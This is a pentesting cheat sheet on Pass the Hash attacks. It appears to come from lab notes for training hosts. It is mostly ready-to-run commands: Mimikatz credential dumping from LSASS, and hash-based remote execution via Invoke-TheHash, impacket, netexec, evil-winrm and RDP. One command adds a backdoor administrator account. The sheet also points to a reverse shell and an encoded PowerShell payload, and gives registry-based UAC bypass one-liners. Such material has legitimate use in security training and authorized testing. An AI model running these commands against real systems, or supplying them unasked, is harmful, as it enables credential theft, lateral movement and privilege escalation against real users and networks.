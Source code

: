 ```yaml
---
title: Pass the Hash
category: Post-Exploitation
tags: [pth, credential, hunting, passwd, hash, smb]
tools: ['mimikatz', 'invoke-thehash', 'evil-winrm', 'netexec', 'impacket']
---
```


# Pass the Hash ([PtH](https://attack.mitre.org/techniques/T1550/002/))

## [Mimikatz](https://github.com/gentilkiwi) (Windows)

Mimikatz has a module named `sekurlsa::pth` that allows you to perform a Pass the Hash attack by starting a process using the hash of the user's password.

```cmd
# /rc4 or /NTLM - NTLM hash of the user's password
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe" exit
```

---

## PowerShell [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) (Windows)

>Invoke-TheHash contains PowerShell functions for performing pass the  hash WMI and SMB tasks. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash  into the NTLMv2 authentication protocol. Local administrator privilege  is not required client-side.

Local administrator privileges are not required client-side, but the  user and hash use to authenticate need to have administrative rights on the target computer.

### Invoke-TheHash with SMB

The following command will use the SMB method for command execution to  create a new user named mark and add the user to the Administrators  group:

```powershell
Import-Module .\Invoke-TheHash.psd1

# Can be used with the WMI as well
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

Can also be used to invoke a reverse shell on the target machine with `-Command`

- `.\nc.exe -lvnp 8001`
- [Reverse Shell Generator](https://www.revshells.com/) - PowerShell #3 (Base64)

### Invoke-TheHash with WMI

```powershell
Import-Module .\Invoke-TheHash.psd1

Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e --Payload--"
```

---

## Linux

### Impacket PsExec

`````bash
impacket-psexec john@10.129.201.126 -hashes :c4b0e1b10c7ce2c4723b4e2407ef81a2
`````

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### NetExec

`````bash
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
`````

To perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` and|or `-x` to execute commands.

#### Command Execution

```bash
netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

```bash
evil-winrm -i 10.129.204.23 -u john -H c4b0e1b10c7ce2c4723b4e2407ef81a2
```

### RDP

Perform an RDP PtH attack to gain GUI access using `xfreerdp`.

```bash
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

If there is a restricted error ***exec*** in and run:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

### Extracting credentials with [Mimikatz](https://github.com/ParrotSec/mimikatz)

Dump credentials from memory using the `sekurlsa` module, or manually decrypt credentials using the `dpapi` module.

May need to bypass UAC if no admin rights, impersonation does not grant admin permissions.

```cmd
# Target the LSASS process with sekurlsa:
C:\Users\Administrator\Desktop> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

# Credential Manager
mimikatz # sekurlsa::credman

# Local passwords and hashes
mimikatz # sekurlsa::logonpasswords
```

Methods for getting passed UAC if no admin access:

```cmd
# fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

# computerdefaults.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```

## Note

> UAC (User Account Control) limits local users' ability to perform remote administration operations. if `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500,  "Administrator") is the only local account allowed to perform remote  administration tasks. Setting it to 1 allows the other local admins as  well.

> There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even  if it is renamed) is enrolled in UAC protection. This means that remote  PTH will fail against the machine when using that account. 
